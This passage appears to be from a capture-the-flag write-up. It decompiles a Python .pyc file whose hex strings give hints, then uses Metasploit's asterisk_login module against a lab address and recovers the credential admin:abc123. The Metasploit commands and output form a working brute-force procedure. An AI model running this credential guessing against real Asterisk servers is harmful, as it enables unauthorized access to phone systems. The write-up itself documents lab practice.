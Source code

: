 ```bash
pip3 install uncompyle6
```

<br>

```bash
uncompyle6 output.pyc
# uncompyle6 version 3.9.2
# Python bytecode version base 2.7 (62211)
# Decompiled from: Python 3.8.10 (default, Sep 11 2024, 16:02:53) 
# [GCC 9.4.0]
# Embedded file name: ./output.py
# Compiled at: 2020-08-11 07:59:35
import pyfiglet
o0OO00 = pyfiglet.figlet_format('Hello!!')
oO00oOo = '476f6f64206a6f622c2075736572202261646d696e2220746865206f70656e20736f75726365206672616d65776f726b20666f72206275696c64696e6720636f6d6d756e69636174696f6e732c20696e7374616c6c656420696e20746865207365727665722e'
OOOo0 = bytes.fromhex(oO00oOo)
Oooo000o = OOOo0.decode('ASCII')
if 0:
    i1 * ii1IiI1i % OOooOOo / I11i / o0O / IiiIII111iI
Oo = '476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21'
I1Ii11I1Ii1i = bytes.fromhex(Oo)
Ooo = I1Ii11I1Ii1i.decode('ASCII')
if 0:
    iii1I1I / O00oOoOoO0o0O.O0oo0OO0 + Oo0ooO0oo0oO.I1i1iI1i - II
print o0OO00

# okay decompiling output.pyc
```

<br>

```bash
python3 output.py
 _   _      _ _       _ _ 
| | | | ___| | | ___ | | |
| |_| |/ _ \ | |/ _ \| | |
|  _  |  __/ | | (_) |_|_|
|_| |_|\___|_|_|\___/(_|_)
```


<br>

<h3>msfconsole</h3>


```bash
~# msfconsole -q
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf6 > use auxiliary/voip/asterisk_login
msf6 auxiliary(voip/asterisk_login) > options
...
msf6 auxiliary(voip/asterisk_login) > set username admin
username => admin
msf6 auxiliary(voip/asterisk_login) > set rhosts 10.10.21.149
rhosts => 10.10.21.149
msf6 auxiliary(voip/asterisk_login) > run
[*] TargetIP:5038     - Initializing module...
[*] TargetIP:5038     - TargetIP:5038 - Trying user:'admin' with password:'admin'
...
[+] TargetIP:5038     - User: "admin" using pass: "abc123" - can login on TargetIP:5038!
```
